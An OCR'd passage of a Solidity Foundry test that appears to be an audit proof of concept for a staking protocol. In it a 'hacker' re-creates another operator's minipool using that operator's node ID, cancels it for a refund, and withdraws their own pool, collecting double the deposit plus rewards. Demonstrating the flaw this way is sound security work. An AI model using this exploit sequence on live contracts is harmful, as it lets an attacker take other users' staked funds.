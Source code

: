    		// fund ggAVAX
    		address lilly = getActorWithTokens("lilly", MAX_AMT, MAX_AMT);
    		vm.prank(lilly);
    		ggAVAX.depositAVAX{value: MAX_AMT}();
    		assertEq(lilly.balance, 0);

    		vm.startPrank(hacker);
    		// Hacker stakes GGP
    		ggp.approve(address(staking), ggpStakeAmt);
    		staking.stakeGGP(ggpStakeAmt);

    		// Create minipool for hacker
    		MinipoolManager.Minipool memory hackerMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    		vm.stopPrank();

    		vm.startPrank(nodeOp);
    		// nodeOp stakes GGP
    		ggp.approve(address(staking), ggpStakeAmt);
    		staking.stakeGGP(ggpStakeAmt);

    		// Create minipool for nodeOp
    		MinipoolManager.Minipool memory nodeOpMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    		vm.stopPrank();

    		// Rialto stakes both hackers and nodeOp in avalanche 
    		vm.startPrank(address(rialto));
    		minipoolMgr.claimAndInitiateStaking(nodeOpMp.nodeID);
    		minipoolMgr.claimAndInitiateStaking(hackerMp.nodeID);

    		// Update that staking has started
    		bytes32 txID = keccak256("txid");
    		minipoolMgr.recordStakingStart(nodeOpMp.nodeID, txID, block.timestamp);
    		minipoolMgr.recordStakingStart(hackerMp.nodeID, txID, block.timestamp);

    		// Skip 14 days of staking duration
    		skip(duration);

    		// Update that staking has ended and funds are withdrawable
    		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(nodeOpMp.nodeID, block.timestamp, 10 ether);
    		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(hackerMp.nodeID, block.timestamp, 10 ether);
    		vm.stopPrank();

    		/// NOW STATE: WITHDRAWABLE ///

    		vm.startPrank(hacker);
    		// Hacker creates a minipool using nodeID of nodeOp
    		// Hacker is now the owner of nodeOp minipool
    		minipoolMgr.createMinipool{value: depositAmt}(nodeOpMp.nodeID, duration, 0.02 ether, avaxAssignmentRequest);

    		// Hacker immediatally cancels the nodeOp minipool, validate 1000 AVAX returned
    		minipoolMgr.cancelMinipool(nodeOpMp.nodeID);
    		assertEq(hacker.balance, depositAmt);
    		// Hacker withdraws his own minipool and receives 1000 AVAX + rewards
    		minipoolMgr.withdrawMinipoolFunds(hackerMp.nodeID);
    		assertEq(hacker.balance, depositAmt + depositAmt + expectedRewards);
